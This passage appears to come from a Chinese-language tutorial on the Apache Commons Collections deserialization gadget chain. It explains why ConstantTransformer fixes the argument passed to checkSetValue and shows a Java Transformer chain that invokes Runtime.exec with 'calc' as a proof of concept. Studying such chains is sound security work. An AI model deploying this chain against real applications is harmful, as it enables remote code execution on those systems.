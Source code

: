 这里调用的 setValue 参数并不是我们想要的那个参数，所以传到的 checkSetValue 方法的参数 value 变成了这样的

[![](assets/1700127979-2f0ea4141f70e4ca56bc6290ad35dad2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116155034-d2a148ca-8454-1.png)

我们必须解决这个问题。解决方法如下

我们可以利用 ConstantTransformer 类

[![](assets/1700127979-f8571c910d2ef707b081d391c59ee416.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116155037-d4e6c4fc-8454-1.png)

这个类就比较方便，不论我们输出什么，他都会返回我们的的输出。这样的们就可以用这个类的 transform

```bash
Transformer[] Transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),//添加这段
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };
```
